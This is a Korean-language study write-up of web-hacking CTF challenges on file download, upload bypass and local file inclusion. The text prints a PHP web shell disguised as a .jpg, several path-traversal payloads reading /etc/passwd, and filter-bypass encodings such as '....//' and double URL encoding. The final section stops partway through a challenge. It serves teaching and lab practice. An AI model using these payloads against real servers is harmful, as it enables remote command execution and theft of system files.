# 웹 해킹 스터디 15주차: File Download & LFI

## 개요

- 이 문서는 File Download 기능과 LFI(Local File Inclusion) 취약점을 활용한 CTF 문제 풀이 기록입니다.
- 실습에서는 파일 다운로드 기능의 파라미터 조작을 통해 서버 내 임의 파일을 열람하거나, LFI를 통해 PHP 코드 실행 흐름으로 확장하는 과정을 다룹니다.

---

## CTF 문제 풀이

### Web Shell



- 대상 웹 애플리케이션에는 게시글 작성 기능이 있으며, 이 중 파일 업로드 입력란이 존재한다.



- 위와 같이 `.php` 확장자를 가진 파일을 업로드할 경우, **업로드가 허용되지 않는 파일 형식입니다.** 라는 메시지가 출력되며 업로드가 차단된다.

후에 Content-Type 변경, 다중 확장자 우회, MIME 타입 조작 등 다양한 우회 기법을 시도하였으나, 모두 서버 측 필터링에 의해 차단되었다.



서버가 `.php` 확장자의 파일 업로드를 차단하고 있기 때문에, 우회 방식으로 `.jpg` 확장자의 파일에 PHP 코드를 삽입한 뒤 업로드하였다.

**페이로드:**
```php
<?php echo system($_GET['cmd']); ?>
```

이후 **LFI 취약점**을 통해 해당 파일이 `include` 되도록 유도함으로써, 서버가 이를 PHP로 처리하게 만들고 코드 실행을 시도한다.



Burp Suite를 활용하여 웹 여러 요청을 확인한 결과,
`theme=modern.php`라는 값이 클라이언트 → 서버로 전송되며, 응답에서도 해당 테마 이름이 다시 응답에서도 해당 테마 이름이 다시 `Set-Cookie` 에 포함되는 구조를 확인하였다.

이로 인해 서버 측에서 `theme` 파라미터를 기반으로 동적으로 PHP 파일을 `include` 하거나 로딩할 가능성이 있는 것으로 보여져,
업로드한 파일에 대한 경로를 지정함으로써 **LFI 공격**이 가능한지 테스트를 진행하였다.



`theme` 파라미터에 `../../../../etc/passwd` 값을 삽입한 결과, 응답 본문에 리눅스 시스템의 `/etc/passwd` 파일 내용이 출력되었다.

이를 활용하여 업로드된 웹쉘 파일(`shell.jpg`)의 경로를 LFI 지점에 삽입하여 포함시키는 방식으로 코드 실행을 시도한다.



- `page=mypage&cmd=ls` 파라미터를 통해 쉘 명령이 정상적으로 실행되었으며, 서버 내부의 디렉토리 및 파일 목록이 출력되는 것을 확인할 수 있었다.

**이제 시스템 내에 저장된 플래그 파일의 위치를 찾기 위해 다음 명령어를 실행하였다:**

```bash
find / -name "flag.txt" 2>/dev/null
```

`flag.txt` 파일의 위치를 확인한 뒤, `cat` 명령어를 통해 해당 파일의 내용을 출력하였다.



이렇게 최종적으로 플래그를 획득 하였다.

---

### Get Flag File



- 이번에도 파일 업로드 기능이 존재하나, `.php`를 포함한 모든 스크립트 계열 확장자에 대해 업로드가 차단되어 있으며, 확장자 우회 기법(예: Content-Type 변경, 다중 확장자 우회, MIME 타입 조작 등) 역시 모두 필터링되는 강력한 보안 정책이 적용되어 있는 상태이다.



- Burp Suite를 이용해 업로드된 게시글의 응답 데이터를 분석한 결과, HTML 본문 내에 첨부파일의 실제 다운로드 경로(`index.php?page=download&filePath=...`)가 명확하게 노출되어 있는 것을 확인하였다.

위 경로를 이용하여 접속을 한 후 Burp Suite로 분석을 해보았다.



- Burp Suite를 통해 `download` 파라미터에 업로드된 파일 경로(`/var/www/html/uploads/4_shell.jpg`)를 직접 요청한 결과, HTTP 응답 본문에 파일 내부에 삽입한 PHP 코드(`<?php echo system($_GET['cmd']); ?>`)가 그대로 포함되어 있는 것을 확인하였다.

이로 인해 서버가 해당 파일을 PHP로 실행하지 않고 단순 **텍스트 파일로 처리하여 반환**하고 있다는 점을 알 수 있었으며, 이는 곧 파일 내의 임의 코드 노출이 가능하다는 것을 의미한다.

첫 번째 시도로 `/etc/passwd` 경로를 포함시켜 시스템 내 파일 접근 가능성을 검증하였다.

**Burp Suite를 이용하여 다음과 같은 요청을 전송하였다:**

```yaml
GET /index.php?page=download&filePath=../../../../etc/passwd
```



- 그 결과, 서버는 `HTTP 200 OK` 응답과 함께 `/etc/passwd` 파일의 내용을 반환하였다. 이는 서버 측에서 사용자 입력에 대해 별도의 경로 제한이나 필터링 없이 파일을 읽고 응답으로 전달하고 있음을 의미하며, **명확한 LFI 취약점(Local File Inclusion)** 으로 판단된다.

앞선 LFI 취약점을 활용해, 이번에는 웹 애플리케이션 루트 디렉터리에 존재하는 `flag.txt` 파일을 직접 열람하여 내부에 포함된 플래그 값을 확인하고자 하였다.



이렇게 웹 애플리케이션 내부에 존재하던 `flag.txt` 파일에 접근하고, 최종적으로 플래그 값을 성공적으로 획득하였다.

---

### Get Flag File 2

- 이번 문제 역시 이전 문제와 유사하게, 다운로드 기능을 기반으로 한 LFI 취약점(Local File Inclusion) 취약점을 중심으로 구성되어 있다.



- Burp Suite를 통해 응답 본문을 분석한 결과, 이전 문제와 똑같이 HTML 본문 내에 첨부파일의 실제 다운로드 경로(`index.php?page=download&filePath=...`)가 명확하게 노출되어 있었고.



- 파일이 다운로드 되는 파일 경로를 통해 Burp Suite로 분석 결과, 해당 파일의 응답 본문에는 삽입한 PHP 코드(`<?php echo system($_GET['cmd']); ?>`)가 그대로 포함되어 있었다.

이를 통해 서버가 해당 파일을 실행하지 않고 단순히 텍스트 파일로 반환하고 있음을 확인하였으며, 이를 기반으로 `/etc/passwd`와 같은 시스템 파일에 대한 접근이 가능한지 여부를 테스트하였다.



- 기본적인 `../` 상대 경로를 통한 디렉터리 상위 이동은 서버 측 필터링으로 인해 차단되었다.
이에 따라 다양한 URL 인코딩 기반 우회 기법을 적용하여 경로 우회 가능성을 테스트하였다.

**테스트한 우회 기법은 다음과 같다:**

- `%252e` → `%2e`로 디코딩되는 Double Encoding
- `....//` → 중첩 경로를 통한 우회
- `%2e%2e%2f`, `..%2f..%2f..%2fetc/passwd` 등

이 중, `....//` 방식이 서버에서 유효하게 처리되어, 다음과 같은 요청으로 LFI에 성공하였다.

앞서 확인한 URL 인코딩 기반의 디렉터리 우회 기법(`....//`)을 활용하여, 웹 서버 루트 디렉터리에 존재하는 `flag.txt` 파일에 대한 직접 접근을 시도하였다.

